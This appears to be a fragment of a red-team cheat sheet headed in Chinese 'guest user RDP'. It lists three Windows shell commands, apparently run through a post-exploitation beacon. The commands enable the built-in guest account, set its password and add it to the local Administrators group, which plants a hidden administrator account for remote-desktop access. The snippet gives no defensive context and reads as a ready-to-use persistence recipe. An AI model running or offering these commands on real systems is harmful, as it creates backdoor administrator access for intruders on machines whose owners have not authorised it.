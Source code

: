 ### guest用户rdp

```
shell net user guest active:yes
shell net user guest <password>
shell net localgroup administrators guest /add
```



